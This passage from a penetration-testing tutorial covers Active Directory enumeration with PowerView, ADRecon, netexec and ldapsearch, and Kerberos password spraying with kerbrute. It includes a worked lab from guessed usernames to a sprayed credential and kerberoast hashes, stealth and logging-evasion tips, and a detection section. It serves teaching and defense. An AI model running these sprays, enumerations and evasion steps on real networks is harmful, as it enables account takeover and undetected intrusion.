Get-DomainGPOLocalGroup                                      # GPOs that set local group membership
Get-DomainGPOUserLocalGroupMapping -Identity jdoe            # where jdoe is admin via GPO
```

`Get-DomainGPOUserLocalGroupMapping` answers a question BloodHound's `GPOLocalGroup` edge answers graphically: *through Group Policy, which machines grant this user local admin?* That is a direct lateral-movement list.

### 7.3 Sessions and local admin (needs reach/privilege)

```powershell
Find-DomainUserLocation -UserIdentity 'Administrator'        # hunt where an admin is logged in
Find-LocalAdminAccess                                        # machines where YOU are local admin
Get-NetSession -ComputerName FS01                            # sessions on a file server
Get-NetLoggedon -ComputerName WKS10                          # who's logged on to a host
```

`Find-DomainUserLocation` (the old `Invoke-UserHunter`) walks computers looking for sessions belonging to high-value users — it is how you locate a Domain Admin's active session to target for credential theft. It is **noisy** (it touches many hosts) — save it for when you've narrowed the target set.



---

## Part 8: ADRecon — The Offline Domain Report Engine

Where PowerView answers one question interactively, **ADRecon** answers *all* of them at once and hands you a report. It is a PowerShell/C# tool (maintained at **adrecon/ADRecon** by Prashant Mahajan) that connects to a domain, enumerates dozens of categories, and produces a multi-tab **Excel workbook** (plus CSVs) summarising the entire domain. It is what you run in the first ten minutes to get a bird's-eye view and an artifact you can attach to a report.

### 8.1 What ADRecon collects

A single run produces tabs for: Forest, Domain, Trusts, Sites, Subnets, Default/Fine-Grained Password Policy, Domain Controllers, Users and their attributes, User SPNs, Kerberoastable accounts, AS-REP-roastable accounts, Groups, Group memberships, OUs, GPOs, gPLink mappings, DNS zones/records, Printers, Computers, Computer SPNs, LAPS readability, BitLocker recovery keys, and ACLs. The Excel "MetaData" tab and a summary chart give a one-glance risk picture (how many accounts have no pre-auth, how many have old passwords, etc.).

### 8.2 Install

```bash
git clone https://github.com/adrecon/ADRecon
# ADRecon.ps1 is the whole tool. Excel output needs Microsoft Excel OR
# the report is emitted as CSVs and an optional generated .xlsx via EPPlus.
```

On the operating host:

```powershell
# From a domain-joined Windows box as the current user
.\ADRecon.ps1

# From a non-domain host with explicit creds, targeting a specific DC
.\ADRecon.ps1 -DomainController dc01.corp.local -Credential (Get-Credential)

# Only the modules you want (quieter), CSV output, custom folder
.\ADRecon.ps1 -Collect Users,Computers,Groups,ACLs -OutputType CSV -OutputDir C:\Temp\adr
```

Key flags:

| Flag | Effect |
|---|---|
| `-Method ADWS` / `-Method LDAP` | Use Active Directory Web Services (quieter, needs RSAT) or raw LDAP |
| `-DomainController <dc>` | Target a specific DC |
| `-Credential <psc>` | Run as alternate creds (essential from non-domain host) |
| `-Collect <list>` | Restrict to specific categories (Forest, Users, ACLs, ...) |
| `-OutputType <CSV\|XML\|JSON\|Excel\|All>` | Choose output format(s) |
| `-OutputDir <path>` | Where to drop the report |
| `-Threads <n>` | Parallelism — raise to go faster, lower to be quieter |

Realistic run tail:

```text
[*] Total Users: 512
[*] Total Computers: 87
[*] Total Groups: 143
[*] Users with SPN (Kerberoast): 6
[*] Users with DoesNotRequirePreAuth (ASREPRoast): 2
[*] LAPS: Not Implemented
[*] Report path: C:\Temp\adr\corp.local-ADRecon-Report.xlsx
```

**Pentester landing on a new domain:** run ADRecon once for the report artifact and the risk summary, then switch to PowerView for the surgical follow-ups. ADRecon is the map; PowerView is the scalpel. **Blue team usage:** run ADRecon against your *own* domain on a schedule — the "MetaData" risk summary (pre-auth-disabled counts, stale passwords, SPN sprawl, unconstrained-delegation hosts) is a genuinely useful self-audit and mirrors exactly what an attacker sees first.

### 8.3 A note on `-Method` and noise

`-Method ADWS` talks to the AD Web Services endpoint (port 9389) the same way `Get-ADUser` does — it looks like normal admin tooling and needs RSAT present. `-Method LDAP` binds raw and works without RSAT but is closer to classic attacker traffic. Choose based on what blends in: on an admin jump box, ADWS blends; on a random workstation, neither blends, so keep threads low and collection scoped.

### 8.4 Cross-platform equivalents from Kali

When you're operating from Linux with just a credential, you don't have PowerShell. The equivalents:

```bash
# ldapsearch — the universal LDAP client. Dump all kerberoastable users:
ldapsearch -x -H ldap://10.10.10.10 -D 'jdoe@corp.local' -w 'Autumn2026!' \
  -b 'DC=corp,DC=local' \
  '(&(samAccountType=805306368)(servicePrincipalName=*))' sAMAccountName servicePrincipalName

# windapsearch — friendlier wrapper with canned queries
python3 windapsearch.py -d corp.local -u jdoe@corp.local -p 'Autumn2026!' \
  --dc-ip 10.10.10.10 --user-spns
python3 windapsearch.py -d corp.local -u jdoe@corp.local -p 'Autumn2026!' \
  --dc-ip 10.10.10.10 --da   # Domain Admins members

# netexec (formerly CrackMapExec) — enumeration + validation at scale
netexec ldap 10.10.10.10 -u jdoe -p 'Autumn2026!' --users
netexec ldap 10.10.10.10 -u jdoe -p 'Autumn2026!' --kerberoasting out.txt
netexec ldap 10.10.10.10 -u jdoe -p 'Autumn2026!' --asreproast asrep.txt
netexec ldap 10.10.10.10 -u jdoe -p 'Autumn2026!' --trusted-for-delegation
```

These produce the same intelligence as PowerView from a Linux foothold and are what you'll use most on HTB/OSCP-style Linux attack boxes. `netexec ldap ... --users` sample:

```text
LDAP  10.10.10.10  389  DC01  [*] Enumerated 512 users
LDAP  10.10.10.10  389  DC01  Administrator    2026-05-01  0  Built-in admin
LDAP  10.10.10.10  389  DC01  svc_backup       2026-02-14  0  Temp pw Summer2024! rotate me
```

---

## Part 9: kerbrute — Username Enumeration and Password Spraying Over Kerberos

kerbrute is a standalone Go tool (**ropnop/kerbrute**) that abuses the **Kerberos pre-authentication** exchange to do two things no LDAP tool can do without a valid bind: enumerate which usernames exist, and validate passwords — both **without SMB, without LDAP, and without generating a logon-failure event that most defenders watch (4625)**. Instead it produces Kerberos pre-auth failures (4771/4768), which many shops monitor far less.

### 9.1 Why it works — the pre-auth oracle

When a client asks a DC for a TGT (an `AS-REQ`), the DC's response reveals information *before* any password is validated:



The distinct error for a non-existent principal (`PRINCIPAL_UNKNOWN`) versus an existing one (`PREAUTH_REQUIRED`) is the **username-enumeration oracle**. The AS-REP-vs-PREAUTH_FAILED distinction is the **password oracle**. kerbrute automates both.

### 9.2 Install

```bash
# Grab a release binary (no deps — it's a static Go binary)
wget https://github.com/ropnop/kerbrute/releases/latest/download/kerbrute_linux_amd64 -O kerbrute
chmod +x kerbrute
./kerbrute -h

# Or build from source
go install github.com/ropnop/kerbrute@latest
```

Three subcommands: `userenum`, `passwordspray`, and `bruteuser` (many passwords vs one user — use with extreme care, it's the fastest way to lock an account).

### 9.3 Username enumeration (no password, no lockout risk)

```bash
./kerbrute userenum -d corp.local --dc 10.10.10.10 usernames.txt
```

Flags: `-d` domain, `--dc` domain controller IP, positional wordlist. A good wordlist comes from the OSINT chapter's name-harvesting (jsmith/j.smith/john.smith permutations) or a leaked list. Sample output:

```text
    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3

2026/xx/xx 12:00:01 >  Using KDC(s):
2026/xx/xx 12:00:01 >   10.10.10.10:88
2026/xx/xx 12:00:01 >  [+] VALID USERNAME:  jdoe@corp.local
2026/xx/xx 12:00:01 >  [+] VALID USERNAME:  tsmith@corp.local
2026/xx/xx 12:00:02 >  [+] VALID USERNAME:  svc_sql@corp.local
2026/xx/xx 12:00:02 >  Done! Tested 8500 usernames (3 valid) in 1.421 seconds
```

Username enumeration **does not risk lockout** (no password is submitted) — this is the safe first step. It converts a broad guess-list into a validated list of real accounts, which you then spray.

### 9.4 Password spraying — safely

Spraying = **one password, many users**, spaced out — the inverse of brute force. This avoids lockout because each account sees only one bad attempt per round.

```bash
./kerbrute passwordspray -d corp.local --dc 10.10.10.10 valid_users.txt 'Autumn2026!'

# Spray a common seasonal guess against every enumerated user
./kerbrute passwordspray -d corp.local --dc 10.10.10.10 valid_users.txt 'Welcome1'
```

Sample:

```text
2026/xx/xx 12:10:03 >  [+] VALID LOGIN:  tsmith@corp.local:Autumn2026!
2026/xx/xx 12:10:07 >  Done! Tested 312 logins (1 success) in 4.03 seconds
```

**The lockout math you must do first.** From `net accounts /domain` you know the lockout policy. If `LockoutBadCount = 5` with a `30`-minute observation window, then each account tolerates **4 bad attempts per 30 minutes** before the 5th locks it. Safe spraying rules:

- **One password per round**, then wait longer than the observation window before the next round. With a 30-min window, spray one candidate password, wait ~31 minutes, spray the next.
- **Subtract in-flight failures.** If some accounts already have failed attempts from real users, your spray can be the one that tips them over. Leave headroom — never use the last attempt.
- **If `LockoutBadCount = 0`** there is no lockout; you can spray freely (still rate-limit for stealth).
- **Skip disabled and already-locked accounts** — filter your user list with the UAC bits from Part 2 first, or you waste attempts and create noise.

A password-spray decision flow:



### 9.5 Other spray tools (know the family)

kerbrute is the quiet Kerberos option; you should recognise the alternatives and when each is louder:

| Tool | Protocol | Notes |
|---|---|---|
| `kerbrute passwordspray` | Kerberos pre-auth | Quietest; 4768/4771 not 4625; no SMB touch |
| `netexec smb <dc> -u users.txt -p 'Pw'` | SMB | Very common; generates 4625 logon failures — noisier |
| `netexec smb <dc> -u users.txt -p 'Pw' --continue-on-success` | SMB | Keep going after first hit |
| `spray.sh` / `DomainPasswordSpray.ps1` | LDAP/SMB | On-host PowerShell spray; auto-pulls user list |
| Kerberos w/ `--continue-on-success` | Kerberos | Combine with kerbrute for full coverage |

**Crucial safety switch on netexec:** always pair a spray with awareness of `--continue-on-success` behaviour and *never* feed netexec a password list with a user list (that's a brute force and will lock the domain). One password, many users, spaced out — every time.

**CTF/OSCP note:** on many exam-style AD networks, the intended path *is* a kerbrute userenum → spray of a weak seasonal or `Welcome1`-style password → one valid low-priv credential → BloodHound. The spray is not an afterthought; it's often the front door.

---

## Part 10: Detection & Defense Angle (Consolidated)

Everything above generates telemetry. Here is what a defender sees and how they catch each technique — read this as both the blue-team playbook and, if you're on the offense, the list of exactly what you're lighting up.

### 10.1 LDAP enumeration (PowerView / ADRecon / ldapsearch / netexec)

- **Event 1644** ("expensive/inefficient LDAP search") on the DC when *Field Engineering* diagnostics are enabled — heavy or wildcard-leading queries surface here. PowerView's broad `Get-DomainUser -Properties *` and ADRecon's full sweep are textbook triggers.
- **Event 4662** — operation on a directory object; DCSync-style extended-rights reads and ACL enumeration can appear here (needs SACL auditing).
- **Script Block Logging (4104)** and **Module Logging (4103)** catch PowerView's function names and the offensive strings (`Find-InterestingDomainAcl`, `Invoke-Kerberoast`) in memory — even fileless `IEX` cradles are logged. This is why attackers reach for SharpView or raw ADSI.
- **AMSI** blocks the well-known PowerView script text at import.
- **Microsoft Defender for Identity (MDI)** flags reconnaissance patterns: user/group enumeration bursts, SMB session enumeration (`Get-NetSession`), and "security principal reconnaissance (LDAP)."

**Defensive actions:** enable script-block + module logging and ship it to a SIEM; turn on the ATA/MDI sensors on DCs; alert on 1644 spikes; restrict who can read sensitive attributes; deploy **honey accounts/objects** with attractive names and SPNs and alert on *any* touch — a legit user never queries `svc_honey`.

### 10.2 Kerberos username enumeration & spraying (kerbrute)

- **Event 4768** — a Kerberos TGT was requested (kerbrute AS-REQ). A flood of 4768 from one source IP against many distinct account names in seconds is the signature of `userenum`.
- **Event 4771** — Kerberos pre-authentication failed. Failure code **0x18** = bad password (your spray's wrong guesses); **0x12** = account disabled/locked. Many 4771/0x18 across many accounts from one IP = a spray.
- **Event 4625** — classic logon failure. Note kerbrute *avoids* this (it's Kerberos, not NTLM logon), which is precisely why it's quieter than an SMB spray.
- **Event 4740** — an account was locked out. A cluster of 4740s is the loud failure mode of a careless spray — the exact outcome the Part 9 math exists to prevent.

**Defensive actions:** alert on 4768/4771 volume anomalies per source IP; correlate one IP → many usernames; deploy honeytoken accounts and alert on *any* auth attempt against them; enforce lockout thresholds *and* smart-lockout/MFA; monitor for the specific 0x18 failure-code bursts.

### 10.3 The detection-vs-OPSEC table

| Technique | Primary event(s) | How the attacker reduces noise |
|---|---|---|
| PowerView LDAP reads | 4104/4103, 1644 | SharpView/raw ADSI, scope `-Properties`, target a non-monitored `-Server` |
| ADRecon full sweep | 1644, 4662, 4104 | `-Collect` subset, low `-Threads`, ADWS method on a jump box |
| Session hunting (`Get-NetSession`) | MDI SMB-session recon | Only run late, against a narrowed host set |
| ACL enumeration | 4662 (with SACL) | Read via LDAP not RPC; scope to specific objects |
| kerbrute userenum | 4768 burst | Slow rate, spread across time, fewer names |
| kerbrute spray | 4771/0x18, risk 4740 | One pw/round, respect lockout window, skip disabled accounts |

---

## Part 11: Building the Lab

You cannot practise any of this legally against a real domain. Build a minimal AD lab you own end-to-end.

- **DC01** — Windows Server 2019/2022 evaluation ISO, promoted to a domain controller for `corp.local` (`Install-ADDSForest`). Free 180-day eval from Microsoft's Evaluation Center.
- **WKS10** — a Windows 10/11 client joined to `corp.local`, logged in as a normal user, to practise on-host PowerView with AMSI/Defender realistically in the way.
- **Kali** — your attack host on the same host-only network, for `kerbrute`, `netexec`, `ldapsearch`, `windapsearch`, `bloodhound-python`.

Seed the domain so the queries return something interesting:

```powershell
# On DC01 — create a few users, a service account with an SPN, and a weak-password account
New-ADUser -Name 'Jane Doe'   -SamAccountName jdoe   -AccountPassword (Read-Host -AsSecureString) -Enabled $true
New-ADUser -Name 'Tom Smith'  -SamAccountName tsmith -AccountPassword (ConvertTo-SecureString 'Autumn2026!' -AsPlainText -Force) -Enabled $true
New-ADUser -Name 'SQL Service' -SamAccountName svc_sql -AccountPassword (ConvertTo-SecureString 'P@ssw0rd123!' -AsPlainText -Force) -Enabled $true
setspn -S MSSQLSvc/db01.corp.local:1433 svc_sql          # make svc_sql kerberoastable
Set-ADUser svc_backup -Description 'Temp pw Summer2024! rotate me'   # plant a description finding
Set-ADAccountControl -Identity someuser -DoesNotRequirePreAuth $true # make one AS-REP roastable
Add-ADGroupMember 'Domain Admins' tsmith                 # give the spray a real payoff
```

Lower the lockout threshold to a realistic non-zero value so you can *feel* the spray math:

```powershell
Set-ADDefaultDomainPasswordPolicy -Identity corp.local -LockoutThreshold 5 -LockoutObservationWindow 00:30:00 -LockoutDuration 00:30:00
```

---

## Part 12: Fully Worked Lab — From Zero Credentials to a Mapped Path Forward

This walkthrough starts with *only a domain name and DC IP* and a harvested list of possible usernames, and ends with a validated credential, a full domain map, and the next attack identified. Every command and every piece of output below is what you'd actually see.

**Step 1 — Enumerate valid usernames (no creds, no lockout risk).**

```bash
./kerbrute userenum -d corp.local --dc 10.10.10.10 name_guesses.txt -o valid_users.txt
```
```text
[+] VALID USERNAME:  jdoe@corp.local
[+] VALID USERNAME:  tsmith@corp.local
[+] VALID USERNAME:  svc_sql@corp.local
[+] VALID USERNAME:  svc_backup@corp.local
Done! Tested 8500 usernames (4 valid) in 1.9 seconds
```

Strip the realm to a clean list:

```bash
sed 's/@corp.local//' valid_users.txt > users.txt
```

**Step 2 — Check the lockout policy BEFORE spraying.** No creds yet, so use an anonymous/kerbrute-derived read or, if anonymous LDAP is allowed:

```bash
netexec smb 10.10.10.10 -u '' -p '' --pass-pol
```
```text
SMB  10.10.10.10  445  DC01  [+] Dumping password info for domain: CORP
SMB  10.10.10.10  445  DC01  Minimum password length: 7
SMB  10.10.10.10  445  DC01  Account Lockout Threshold: 5
SMB  10.10.10.10  445  DC01  Reset Account Lockout Counter: 30 minutes
```

Threshold 5 / 30-min window ⇒ 4 safe attempts per account per 30 minutes. We'll use exactly one.

**Step 3 — Spray one seasonal password across the validated users.**

```bash
./kerbrute passwordspray -d corp.local --dc 10.10.10.10 users.txt 'Autumn2026!'
```
```text
[+] VALID LOGIN:  tsmith@corp.local:Autumn2026!
Done! Tested 4 logins (1 success) in 0.6 seconds
```

One credential: `tsmith:Autumn2026!`. Move to authenticated enumeration.

**Step 4 — Validate the credential and get a domain overview from Kali.**

```bash
netexec smb 10.10.10.10 -u tsmith -p 'Autumn2026!'
```
```text
SMB  10.10.10.10  445  DC01  [+] corp.local\tsmith:Autumn2026! (Pwn3d!)
```

`(Pwn3d!)` means local admin on the DC — because in our lab `tsmith` is in Domain Admins. In a real domain you'd more often see a plain `[+]` (valid but not admin) and continue enumerating. Pull the domain shape:

```bash
netexec ldap 10.10.10.10 -u tsmith -p 'Autumn2026!' --users --groups
netexec ldap 10.10.10.10 -u tsmith -p 'Autumn2026!' --kerberoasting kerb.txt
netexec ldap 10.10.10.10 -u tsmith -p 'Autumn2026!' --asreproast asrep.txt
```
```text
LDAP 10.10.10.10 389 DC01 [+] Enumerated 512 users
LDAP 10.10.10.10 389 DC01 [+] Found kerberoastable user: svc_sql  MSSQLSvc/db01.corp.local:1433
LDAP 10.10.10.10 389 DC01 [*] Hash written to kerb.txt
```

**Step 5 — Deep-dive with PowerView (from WKS10 or via runas/creds).** Confirm the privilege and hunt ACLs and delegation:

```powershell
$pw   = ConvertTo-SecureString 'Autumn2026!' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('CORP\tsmith',$pw)

Get-DomainGroupMember 'Domain Admins' -Recurse -Credential $cred | Select membername
Get-DomainUser -SPN -Credential $cred | Select samaccountname,serviceprincipalname
Get-DomainComputer -Unconstrained -Credential $cred | Select dnshostname
Find-InterestingDomainAcl -ResolveGUIDs -Credential $cred |
    ? { $_.IdentityReferenceName -eq 'tsmith' } | Select ObjectDN,ActiveDirectoryRights
```
```text
membername
----------
Administrator
tsmith

samaccountname serviceprincipalname
-------------- --------------------
svc_sql        MSSQLSvc/db01.corp.local:1433

dnshostname
-----------
DC01.corp.local
APP01.corp.local        <-- unconstrained delegation, non-DC = lateral gold

ObjectDN                                   ActiveDirectoryRights
--------                                   ---------------------
CN=svc_web,CN=Users,DC=corp,DC=local       GenericWrite
```

**Step 6 — Read the results and pick the next move.** From these outputs we now have a mapped set of forward paths, without touching BloodHound:

1. `tsmith` is Domain Admin ⇒ domain is effectively owned (dump NTDS with DCSync — later chapter).
2. `svc_sql` has an SPN ⇒ **kerberoast** it (Chapter 4) for an offline crack, useful even without DA.
3. `APP01` has **unconstrained delegation** ⇒ coerce a DC to authenticate to it and capture its TGT.
4. `tsmith` holds **GenericWrite** on `svc_web` ⇒ targeted kerberoast or shadow-credentials on that account.

Step 6 is the whole point of manual enumeration: you *read* the intel and choose the quietest sufficient path, rather than running every attack blindly.

---

## Part 13: OPSEC Discipline for Enumeration

Enumeration feels safe and is therefore where careless operators get caught. Rules:

- **Scope every query.** `Get-DomainUser -Properties samaccountname,description` reads two attributes; `Get-DomainUser -Properties *` reads dozens and inflates 1644 telemetry. Ask for exactly what you need.
- **Prefer LDAP reads over RPC/SMB session calls.** `Get-NetSession`/`Find-DomainUserLocation` touch many hosts and trip MDI — run them late and narrowly, never as a first sweep.
- **Avoid the monitored DC.** `-Server dc02.corp.local` lets you aim heavy queries at a less-watched replica.
- **Never brute force a single account.** `kerbrute bruteuser` and any user-list-plus-password-list combo is how you lock accounts. One password, many users, spaced out — always.
- **Filter out disabled/locked accounts before spraying** using the UAC bits from Part 2; spraying a disabled account is pure noise.
- **Kill AMSI-flagged tooling smartly.** If PowerView won't import, don't hammer it and generate 20 blocked-script events — switch to SharpView, raw ADSI, or Kali-side `netexec`/`ldapsearch`.
- **Log your own actions.** Keep a timestamped command log so that when the client's SOC asks "was this you at 12:10?", you can answer precisely — this is a professional obligation, not just tidiness.

---

## Part 14: Final Revision / Summary

- **Everything is LDAP.** PowerView, ADRecon, SharpHound, `net`, `netexec ldap` all send search filters to a DC on 389/636/3268. Learn the filter language (Part 2) and the tools become predictable front-ends.
- **UAC bitwise filters** (`:1.2.840.113556.1.4.803:=`) are the highest-value filters — they surface AS-REP-roastable, kerberoastable, delegation, and password-never-expires accounts.
- **Three stances:** unauthenticated (kerbrute userenum only), low-priv authenticated (the rich zone — PowerView/ADRecon/netexec), and privileged (adds sessions, LAPS, gMSA).
- **PowerView** is the interactive scalpel: `Get-Domain*`, `Get-DomainUser -SPN/-PreauthNotRequired`, `Get-DomainGroupMember -Recurse`, `Get-DomainComputer -Unconstrained`, and the crown jewel `Find-InterestingDomainAcl -ResolveGUIDs`.
- **ADRecon** is the one-shot report: a full Excel workbook of the domain with a risk summary — great as an artifact and a first bird's-eye view.
- **kerbrute** is the pre-auth oracle: `userenum` (safe, no lockout) then `passwordspray` (one password, many users, respect the lockout window). It's quieter than SMB spraying because it makes 4768/4771, not 4625.
- **Detection** hinges on 1644 (expensive LDAP), 4104/4103 (script-block/module logging), 4662 (object access), and 4768/4771/4740 (Kerberos + lockout). Defenders should deploy honey accounts and alert on volume anomalies.
- **Enumeration loops.** Every credential and every privilege gain sends you back to re-enumerate as a new identity.

---

## Part 15: Cheat Sheet / Quick Reference

**Native / raw (no tooling):**
```powershell
net user /domain ; net group "Domain Admins" /domain ; net accounts /domain
$s=New-Object System.DirectoryServices.DirectorySearcher; $s.Filter='(servicePrincipalName=*)'; $s.FindAll()
```

**PowerView essentials:**
```powershell
Get-Domain ; Get-DomainController ; Get-DomainTrustMapping ; Get-DomainPolicyData
Get-DomainUser -SPN | select samaccountname,serviceprincipalname
Get-DomainUser -PreauthNotRequired | select samaccountname
Get-DomainUser -Properties samaccountname,description | ? description
Get-DomainGroupMember 'Domain Admins' -Recurse | select membername
Get-DomainComputer -Unconstrained | select dnshostname
Get-DomainComputer -TrustedToAuth | select dnshostname,msds-allowedtodelegateto
Find-InterestingDomainAcl -ResolveGUIDs | select IdentityReferenceName,ActiveDirectoryRights,ObjectDN
Find-LocalAdminAccess ; Find-DomainUserLocation -UserIdentity Administrator
# alternate creds on any of them:  -Credential $cred
```

**ADRecon:**
```powershell
.\ADRecon.ps1 -DomainController dc01.corp.local -Credential (Get-Credential) -OutputType Excel
.\ADRecon.ps1 -Collect Users,Computers,Groups,ACLs -OutputType CSV -OutputDir C:\Temp\adr
```

**Kali-side LDAP enum:**
```bash
netexec ldap DC -u u -p p --users --groups --kerberoasting k.txt --asreproast a.txt --trusted-for-delegation
python3 windapsearch.py -d corp.local -u u@corp.local -p p --dc-ip DC --user-spns --da
ldapsearch -x -H ldap://DC -D 'u@corp.local' -w p -b 'DC=corp,DC=local' '(servicePrincipalName=*)' sAMAccountName
```

**kerbrute:**
```bash
kerbrute userenum     -d corp.local --dc DC users.txt -o valid.txt
kerbrute passwordspray -d corp.local --dc DC valid.txt 'Autumn2026!'
# NEVER: kerbrute bruteuser (locks the account)
```

**UAC bitwise filters:**
```text
AS-REP roastable:   (userAccountControl:1.2.840.113556.1.4.803:=4194304)
pw never expires:   (userAccountControl:1.2.840.113556.1.4.803:=65536)
unconstrained deleg:(userAccountControl:1.2.840.113556.1.4.803:=524288)
kerberoastable:     (&(samAccountType=805306368)(servicePrincipalName=*)(!(samAccountName=krbtgt)))
```

---

## Part 16: Common Pitfalls

- **Spraying without reading the lockout policy first.** The single most damaging mistake — you lock dozens of staff, the client notices instantly, and trust evaporates. Always `net accounts /domain` / `--pass-pol` before any password submission.
- **Feeding a password *list* with a user *list* to a spray tool.** That's a brute force, not a spray — it locks accounts fast. One password per round.
- **Forgetting `-Recurse` on group membership.** You'll report "only Administrator is DA" and miss the humans nested two groups deep — the ones you actually attack.
- **Running `Get-DomainUser -Properties *` across a 50k-user domain.** Enormous, slow, and a 1644 beacon. Scope your attributes.
- **Not excluding disabled/locked accounts before spraying.** Wasted attempts and pure detection noise.
- **Assuming anonymous LDAP is allowed.** It usually isn't anymore; when your unauthenticated `ldapsearch` returns nothing, that's config, not failure — pivot to kerbrute userenum.
- **Trusting `lastLogonTimestamp` as precise.** It replicates lazily (up to ~14 days stale); use it for "roughly active?", not "logged in yesterday."
- **Hammering an AMSI-blocked PowerView import.** Twenty blocked-script events is louder than one; switch approach after the first block.
- **Confusing `sAMAccountName` and `userPrincipalName` in kerbrute/netexec.** Some tools want `user`, some want `user@realm`; a mismatch looks like "no valid users" when the accounts exist.

---

## Part 17: Practice Labs & Resources

Train each specific skill from this chapter, not AD generically:

- **TryHackMe — Attacktive Directory.** The canonical kerbrute + AS-REP-roast + enumeration room; walks the exact `kerbrute userenum` → hash → crack path in this chapter.
- **TryHackMe — Enumerating Active Directory / Breaching AD.** PowerView, `net`, LDAP, and BloodHound enumeration drills against a live lab domain.
- **HackTheBox — Forest, Active, Sauna, Support.** Forest and Sauna hinge on AS-REP roasting found via enumeration; Support drills LDAP `description`/info-attribute leakage; Active drills SPN/GPP enumeration. All start with the manual enumeration in this chapter.
- **HackTheBox — Pro Labs "Dante"/"Zephyr" and the Dedicated AD labs.** Multi-host domains where kerbrute spraying and PowerView ACL hunting are the intended path.
- **HackTheBox Academy — "Active Directory Enumeration & Attacks" module.** The most direct match to this chapter: PowerView, kerbrute, ldapsearch, and spraying end to end.
- **XPN / GOAD (Game of Active Directory).** A free, self-hosted vulnerable multi-domain forest — the best place to run ADRecon, PowerView ACL hunting, and cross-trust enumeration without a subscription.
- **PowerView function reference** — read the PowerSploit `Recon/PowerView.ps1` source itself; the comment-based help on each function is the definitive flag reference and teaches you the underlying LDAP filter each switch emits.

**Practice questions:**

1. You have a foothold credential but PowerView is blocked by AMSI on the host. Write the raw `DirectorySearcher` filter that returns every kerberoastable user, and explain why `samAccountType=805306368` is more precise than `objectClass=user`.
2. The domain's lockout policy is `LockoutBadCount=5`, observation window 30 minutes. You have 400 validated usernames and 3 candidate passwords. Describe a spray schedule that cannot lock any account, and state how many total rounds and how long it takes.
3. `Find-InterestingDomainAcl -ResolveGUIDs` shows your controlled user has `GenericWrite` over a service account. Name two distinct attacks that primitive enables and which attribute you'd modify for each.
4. Distinguish the DC event IDs a defender would see for (a) kerbrute username enumeration, (b) a kerbrute password spray with wrong guesses, and (c) an account actually locking out. Give the event IDs and, for the spray, the pre-auth failure code.
5. Explain why kerbrute's username enumeration works at all — what different responses does the KDC give for an existing vs non-existing principal, and why does this leak before any password is checked?

---

*Also on [Praneeth's portfolio](https://ping-praneeth.vercel.app/notebook/pentest-active-directory/03-powerview-adrecon-and-ad-enumeration-kerbrute-user-spray), with comments and the latest edits.*
